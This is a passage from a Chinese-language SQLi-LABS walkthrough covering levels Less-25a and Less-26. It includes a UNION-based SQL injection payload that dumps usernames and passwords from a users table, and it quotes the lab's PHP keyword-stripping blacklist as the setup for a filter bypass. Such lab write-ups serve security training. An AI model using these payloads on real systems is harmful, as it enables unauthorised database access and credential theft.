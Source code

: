 ## Less-25a 用OR&amp;AND欺骗

+ 根据页面提示在链接添加一个属性和值：id=1。正常返回数据。
+ 判断该SQL语句的类型。
    + 使用在id值后面添加单引号，返回页面数据为空，可以推断出该SQL语句类型为数值。
+ 接下来我们直接获取所有的数据，这里和Less-25区别不大（查询该数据库中的所有表和所有列这里就不进行演示了）。

```sql
0 union select 1,(select group_concat(username) from users),(select group_concat(passwoorrd) from users) --
```

![image-20211025225928644](../../images/SQLi-LABS/image-20211025225928644.png)

## Less-26 Trick with comments

+ 判断该数据SQL语句的类型经过尝试。发现该SQL语句类型为字符串类型。
+ 经过多次尝试以后发现该SQL语句有进行过滤处理，这时候我们就需要查看源代码。
+ 发现了过滤函数。

```php
function blacklist($id)
{
        $id= preg_replace('/or/i',"", $id);                     //strip out OR (non case sensitive)
        $id= preg_replace('/and/i',"", $id);            //Strip out AND (non case sensitive)
    	# 下面的代码都是在过滤空格
        $id= preg_replace('/[\/\*]/',"", $id);          //strip out /*
        $id= preg_replace('/[--]/',"", $id);            //Strip out --
        $id= preg_replace('/[#]/',"", $id);                     //Strip out #
        $id= preg_replace('/[\s]/',"", $id);            //Strip out spaces
        $id= preg_replace('/[\/\\\\]/',"", $id);                //Strip out slashes
        return $id;
}
```
